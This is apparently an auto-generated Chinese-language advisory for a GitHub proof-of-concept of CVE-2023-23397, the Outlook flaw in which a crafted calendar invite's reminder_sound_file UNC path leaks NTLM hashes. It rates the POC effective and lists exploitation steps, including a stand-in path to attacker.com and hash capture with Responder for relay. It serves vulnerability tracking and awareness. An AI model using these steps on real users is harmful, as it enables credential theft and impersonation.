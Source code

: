 ## CVE-2023-23397 Microsoft Outlook 权限提升漏洞

**漏洞编号:** CVE-2023-23397

**漏洞类型:** 权限提升

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可能导致NTLM Relay攻击

**影响版本:** 受影响版本包括 Microsoft Outlook 2013 Service Pack 1, Microsoft Outlook 2016, Microsoft Office 2019, Microsoft Office LTSC 2021, Microsoft 365 Apps for Enterprise 的特定版本。

**利用条件:** 攻击者需要能够发送包含恶意构造的邮件或日历邀请给受害者，受害者需要使用受影响的 Outlook 版本。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-23397 是一个 Microsoft Outlook 权限提升漏洞。攻击者可以通过发送特制的邮件，利用 `reminder_sound_file` 字段指定一个 UNC 路径，当 Outlook 客户端处理该邮件时，会尝试连接到指定的 UNC 路径，从而触发 NTLM 认证。攻击者可以捕获这个 NTLM hash 并进行中继攻击（NTLM Relay），从而冒充受害者的身份。

**有效性：**

提供的 POC 代码是有效的。该脚本会创建一个恶意的 appointment.msg 文件，其中 `reminder_sound_file` 设置为攻击者控制的 UNC 路径。然后，它通过 SMTP 发送包含此附件的电子邮件。当受害者打开电子邮件或 Outlook 处理该日历邀请时，会尝试访问 UNC 路径，从而泄露 NTLM hash。

**投毒风险：**

该仓库存在一定的投毒风险，约10%。

*   虽然核心 POC 代码的功能符合漏洞描述，但攻击者可以修改 `reminder_sound_file`  指向一个非预期的 SMB 服务器。如果攻击者控制的 SMB 服务器本身包含恶意代码，或者被用于投放恶意载荷，那么当受害者连接到该服务器时，可能受到进一步的攻击。例如，攻击者可以利用 Responder 等工具捕获 NTLM hash，然后使用该哈希执行其他攻击。
*   此外，代码中的 SMTP 服务器、用户名和密码为示例值，如果用户不修改这些值直接使用，会导致攻击失败或暴露攻击者信息。
*   README.md 文件比较简单，缺乏详细的漏洞描述和使用说明，可能导致用户误用或理解不足。

**利用方式：**

1.  攻击者构建一个恶意的 appointment.msg 文件，其中 `reminder_sound_file` 字段设置为攻击者控制的 UNC 路径，例如 `\\attacker.com\evilshare\sound.wav`。
2.  攻击者通过电子邮件将此恶意 appointment.msg 文件发送给受害者。
3.  受害者使用受影响的 Outlook 版本打开电子邮件或 Outlook 自动处理该日历邀请。
4.  Outlook 客户端尝试访问 `reminder_sound_file` 字段指定的 UNC 路径，从而向 `attacker.com` 发起 NTLM 认证。
5.  攻击者使用工具（例如 Responder）捕获 NTLM hash。
6.  攻击者使用捕获到的 NTLM hash 进行中继攻击，例如冒充受害者访问内部资源。

**项目地址:** [AiK1d/CVE-2023-23397-POC](https://github.com/AiK1d/CVE-2023-23397-POC)

**漏洞详情:** [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)